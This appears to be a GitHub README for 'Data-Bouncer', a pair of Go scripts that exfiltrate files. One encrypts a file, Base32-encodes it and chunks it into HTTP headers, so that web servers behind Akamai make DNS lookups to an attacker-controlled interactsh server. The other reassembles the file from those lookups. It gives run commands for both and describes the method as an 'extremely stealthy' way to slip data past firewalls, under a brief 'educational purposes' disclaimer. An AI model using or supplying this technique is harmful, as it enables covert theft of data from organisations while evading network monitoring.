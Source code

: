 # Data-Bouncer

I came across this Proof of Concept outlined here in https://thecontractor.io/data-bouncing.
I took their ideas and wrote two Go scripts that can be used for educational purposes. Please don't do anything illegal.

One script that encrypts and bounces the data you want to exfiltrate and the other that reassembles and decrypts it.

You will need an OOB dns server under you're control for this to work and collect the data. Here I'm using https://github.com/projectdiscovery/interactsh

From my testing this should work on most websites/domains that touches Akamai.

### Bounce.go
This script reads your chosen domain names from domains.txt. First encrypts your chosen file using a password you provide, encodes the file into Base32 and finally splits it into 63 byte chunks and sends them as part of a domain name in an HTTP header.

Example:
```
go run bounce.go -f <filename> -p <password> -u <UUID> -e <interact server url> -v
```

### Regenerate.go
This script reads the JSON output from your interactsh exfil server, processes and reassembles the chunks and does the reverse of decoding, decrypting, and finally outputting the file.

Example:
```
go run regenerate.go -i <exported.json> -o <outputfile> -p <password> -u <UUID> -v
```

### Images

Example of bouncing a file:

![bouncer](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/87499151-3fef-4acc-b1d8-f67591ae21b9)

Example of regenerating the file:

![regen](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/6a2ac6d1-7d40-455b-b1ae-a83143078076)

Example from interactsh web client:

![interactsh](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/8c8f3ac9-ccf8-44be-9417-36bff4bea1c4)

Example of the forward traffic from FortiGate:

![FortiGate1](https://github.com/BKlaasWerkman/Data-Bouncer/assets/105836264/e4f26c0b-53ec-45db-a438-6fc340b87d1d)

- As you can see, it looks like the traffic is going to 23.x.x.x, a highly trusted domain.
- However, when the HTTP request is made, the webserver looks at our modified HTTP headers and does a dns lookup of our exfil server in those headers.
- Then we're able to collect each of those dns lookups back to our exfil server and reconstruct the data from those headers.
- This only works because many webservers processes hostnames in the headers, and we can relay small chunks of data in those headers for collection.
- Therefore, this is an extremely stealthy way of exfiltrating data.
